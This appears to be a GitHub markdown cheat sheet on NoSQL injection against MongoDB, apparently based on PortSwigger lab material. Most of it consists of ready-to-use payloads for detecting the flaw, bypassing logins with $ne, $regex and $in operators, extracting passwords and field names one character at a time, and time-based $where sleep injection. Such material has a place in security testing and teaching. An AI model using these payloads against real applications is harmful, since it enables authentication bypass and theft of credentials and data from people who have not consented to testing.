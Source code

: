 # Table of Contents

1. [Basic Operator Difference Between SQLi & NoSQLi](#basic-operator-difference-between-sqli-nosqli)
2. [Detecting NoSQLi Vulnerability](#detecting-nosqli-vulnerability)
3. [NoSQL Operator Injection](#nosql-operator-injection)
4. [Submitting Query Operators](#submitting-query-operators)
5. [MongoDB Login Bypass](#mongodb-login-bypass)
6. [MongoDB Data Retrieving](#mongodb-data-retrieving)
7. [Operator Injection to Retrieving Unknown Data](#operator-injection-to-retrieve-unknown-data)
8. [Time-Based NoSQL Injection](#time-based-nosql-injection)
---

### Basic operator difference between SQLi & NoSQLi
  1. `or` >> `||`
  2. `and` >> `&&`
  3. `-- -` >> `%00`
---
### Detecting NoSQLi Vulnerability
**For MongoDB Detection:**
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
**Causing syntax error in MongoDB**
```
'
```
**Escaping the syntax error in MongoDB**
```
\'
```
Or we can try,
```
%00
```
**Injecting in JSON Format**
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
**Others :**
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
### Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```
**Example with explanation :**

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.
  4. Same as 3.
### NoSQL operator injection

`$where` - Matches documents that satisfy a JavaScript expression.
<br>
`$ne` - Matches all values that are not equal to a specified value.
<br>
`$in` - Matches all of the values specified in an array.
<br>
`$regex` - Selects documents where values match a specified regular expression.
<br>
<br>
Details: [Portswigger](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

### Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
<br>
<br>
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.
<br>
<br>
If this doesn't work, you can try the following:
<br>
<br>
  `1.` Convert the request method from `GET` to `POST`.
  <br>
  `2.` Change the `Content-Type` header to `application/json`.
  <br>
  `3.` Add `JSON` to the `message body`.
  <br>
  `4.` Inject `query` operators in the `JSON`.
### MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
![Screenshot from 2024-07-12 03-55-31](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)
<br>
Note: We need to input atleast one valid credential to make a valid query.
<br>
If this doesn't work, you can try the following:

    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
### MongoDB Data Retrieving
Extracting Password:
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} >> For extracting password via operator
```
### Identifying field names
```
' && this.anything && 'a'=='b >> Confirming if there is a field name
' && this.username!=' >> Identifying field names [Note: If there is a username field exists, it will response with different type of message]
' && this['u'] && 'a'=='b >> Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```
### Operator Injection To Retrieving Unknown Data
```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
```
### Time based NoSQL Injection
```
{
  "username": "admin",
  "password": { "$where": "sleep(5000)" }
}
```
**Data Retrieve**
Initial Request
```
{
  "product": "Tablet",
  "price": 350,
}
```
Malformed Request
```
{
  "product": { "$eq": "Tablet" },
  "price": { "$where": "if (this.price > 300) { sleep(5000); return true; } return false;" }
}
```
